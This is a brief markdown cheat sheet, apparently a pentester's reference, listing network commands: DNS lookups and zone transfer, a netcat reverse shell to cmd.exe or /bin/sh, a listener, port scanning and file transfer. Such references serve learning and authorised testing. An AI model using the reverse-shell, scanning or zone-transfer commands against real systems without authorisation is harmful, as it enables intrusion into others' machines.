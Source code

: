 # rtfm

## network

<table>
  <tr>
    <th>command</th>
	<th>description</th>
  </tr>
  <tr>
    <td>host -t ns <i>domain</i></td>
	<td>ask the name servers for a domain</td>
  </tr>
  <tr>
	<td>host -l <i>domain nameServer</td>
	<td>dns zone transfer</td>
  </tr>
	<tr>
		<td>nc <i>ip port</i> -e <i>shell</td>
		<td>start reverse shell: cmd.exe, /bin/sh</td>
	</tr>
	<tr>
		<td>nc -l -p <i>port</td>
		<td>start listener</td>
	</tr>
	<tr>
		<td>nc -v -n -z -w1 <i>ip startPort</i> - <i>endPort</td>
		<td>tcp port scanner</td> 
	</tr>
	  <tr>
		<td>nc -l -p <i>port fileName</i><br>nc -w3 <i>ip port fileName</td>
		<td>file transfers</td>
	</tr>
</table>
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTQwNDA2NDgxOSwtMTk2NjU4ODUxNV19
-->